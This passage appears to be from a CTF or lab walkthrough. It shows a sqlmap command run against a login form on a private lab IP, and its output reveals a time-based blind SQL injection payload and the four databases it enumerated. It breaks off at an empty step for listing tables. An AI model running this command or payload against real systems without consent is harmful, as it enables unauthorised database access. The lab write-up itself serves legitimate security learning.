 Lets start our basic enumiration 

### 9.2 Enumirating the databases
```bash
sqlmap -u 'http://10.38.1.117:1337/978345210/index.php' --data='username=username&password=password&submit=' --level=5 --risk=3 --dbs
        ___
       __H__                                                                                                                                                 
 https://sqlmap.org                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:02:17 /2024-12-17/

[22:02:17] [WARNING] provided value for parameter 'submit' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[22:02:17] [INFO] resuming back-end DBMS 'mysql' 
[22:02:17] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=aokhm5u0ss9...dbtnulide3'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=username' AND (SELECT 4492 FROM (SELECT(SLEEP(5)))juSH)-- mLUu&password=password&submit=
---
[22:02:20] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.5.9, Apache 2.4.7, PHP
back-end DBMS: MySQL >= 5.0.12
[22:02:20] [INFO] fetching database names
[22:02:20] [INFO] fetching number of databases
[22:02:20] [INFO] resumed: 4
[22:02:20] [INFO] resumed: information_schema
[22:02:20] [INFO] resumed: Webapp
[22:02:20] [INFO] resumed: mysql
[22:02:20] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp

[22:02:20] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.38.1.117'

[*] ending @ 22:02:20 /2024-12-17/
```
Here we got the list of available databases
```
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp
```
### 9.2 Enumirating the list of tables in the database Webapp
```bash
```